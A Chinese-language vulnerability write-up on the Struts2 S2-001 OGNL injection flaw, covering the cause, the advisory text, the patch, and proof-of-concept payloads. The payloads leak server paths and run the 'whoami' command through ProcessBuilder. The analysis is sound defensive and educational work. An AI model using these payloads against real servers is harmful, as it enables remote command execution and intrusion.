



## 1.漏洞原因
官方说明：
https://cwiki.apache.org/confluence/display/WW/S2-001

```shell
The 'altSyntax' feature of WebWork 2.1+ and Struts 2 allows OGNL expressions to be inserted into text strings and is processed recursively. This allows a malicious user to submit a string, usually through an HTML text field, containing an OGNL expression that will then be executed by the server if the form validation has failed. For example, say we had this form that required the 'phoneNumber' field to not be blank:
```

```jsp
<s:form action="editUser">
  <s:textfield name="name" />
  <s:textfield name="phoneNumber" />
</s:form>
```

```shell
The user could leave the 'phoneNumber' field blank to trigger the validation error, then populate the 'name' field with %{1+1}. When the form is re-displayed to the user, the value of the 'name' field will be '2'. The reason is the value field is, by default, processed as %{name}, and since OGNL expressions are evaluated recursively, it is evaluated as if the expression was %{%{1+1}}.

The OGNL parsing code is actually in XWork and not in WebWork 2 or Struts 2.
```

### 简单翻译就是：
WebWork 2.1+和Struts2的“altSyntax”功能允许将OGNL表达式插入文本字符串并进行递归处理。 这允许恶意用户通常通过HTML文本字段提交包含OGNL表达式的字符串，如果表单验证失败，该字符串将由服务器执行。 例如，假设我们有一个要求'phoneNumber'字段不为空的表格：

```jsp
<s:form action="editUser">
  <s:textfield name="name" />
  <s:textfield name="phoneNumber" />
</s:form>
```

用户可以将“ phoneNumber”字段留空以触发验证错误，然后在“ name”字段中填充％{1 + 1}。 当表单重新显示给用户时，“名称”字段的值将为“ 2”。 原因是默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。

OGNL解析代码实际上在XWork中，而不在WebWork 2或Struts 2中。 


关键点在这两句话：

1. 允许恶意用户通常通过HTML文本字段提交包含OGNL表达式的字符串，如果表单验证失败，该字符串将由服务器执行

2. 原因是默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。


第一句话的理解：

OGNL表达式的字符串,如果表单验证失败，则字符串由服务器执行。

OGNL表达式字符串：

https://xz.aliyun.com/t/2672#toc-3 可以看这篇文章，有详细的介绍。

https://juejin.cn/post/6844904013683507207 ognl语法介绍

表单验证失败：

在使用了s2`<s>`标签时，验证失败返回首页时会将表达式内容执行并返回到标签框中。

第二句话理解：

参考：https://b1ue.cn/archives/93.html

默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。

我们输入了`%{233*233}`按理应该返回`%{233*233}`。但是s2会给输入加上`%{}`,所以变成了`%{%{233*233}}`。因为translateVariables方法递归执行了ognl表达式。所以计算了`233*233`。
`altSyntax` 功能允许将OGNL表达式插入到文本字符串中并以递归方式处理。

## 2.poc利用
poc:

```java
%{1+1}
```


获取tomcat路径：

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取web路径：

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```


命令执行payload:

```java
%25{%23a%3d(new+java.lang.ProcessBuilder(new+java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),%23b%3d%23a.getInputStream(),%23c%3dnew+java.io.InputStreamReader(%23b),%23d%3dnew+java.io.BufferedReader(%23c),%23e%3dnew+char[50000],%23d.read(%23e),%23f%3d%23context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),%23f.getWriter().println(new+java.lang.String(%23e)),%23f.getWriter().flush(),%23f.getWriter().close()}
```

执行结果：




## 3. poc构建分析

```java
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),
#f.getWriter().close()}
```

ognl表达式构建对象。执行命令。

`#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),`命令执行存储到a属性,申请一个存储流到e属性，调用`com.opensymphony.xwork2.dispatcher.HttpServletResponse`进行回显。

## 4.漏洞分析
https://b1ue.cn/archives/93.html

## 5.漏洞修复

官方给出的修复方案是将altSyntax默认关闭，使用break打断递归查询。

反编译对比xwork-2.0-beta-1.jar和xwork-2.0.5.jar：



发现在xwork-2.0.5中将返回改成了break。以此来修复递归执行ognl表达式。
